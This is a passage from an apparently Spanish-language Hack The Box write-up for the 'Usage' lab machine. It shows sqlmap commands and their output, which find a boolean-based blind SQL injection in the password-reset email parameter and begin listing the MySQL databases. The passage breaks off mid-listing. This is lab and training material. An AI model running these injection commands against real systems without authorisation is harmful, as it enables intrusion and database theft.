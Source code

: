 ```bash

_token=4O8CPGJvEJCZZLmvRBc9IVXPbxsmeLewVJatlYKW&email=a
```

Realizaremos a través de la herramienta de `sqlmap` una prueba de inyección `SQL`automatizada para verificar si es vulnerable o no. Verificamos que detecta que por detrás se está corriendo un servicio de `MySQL`.

```bash
❯ sqlmap -r request --level 5 --risk 3 --threads 10 -p email --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:01:51 /2025-03-07/

[00:01:51] [INFO] parsing HTTP request from 'request'
[00:01:51] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[00:01:51] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[00:01:52] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[00:01:52] [INFO] testing for SQL injection on POST parameter 'email'
[00:01:52] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:02:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[00:02:49] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[00:03:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:03:18] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable 
[00:03:20] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
```

A través de la siguiente consulta con `sqlmap`, comprobaremos las bases de datos existentes en la aplicación web. Verificamos de la existencia de una base de datos llamada `usage_blog`.

```bash
❯ sqlmap -r request --level 5 --risk 3 --threads 10 -p email --batch --dbms MySQL --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:12:24 /2025-03-07/

...[snip]...
                  
available databases [3]:
[*] information_schema
```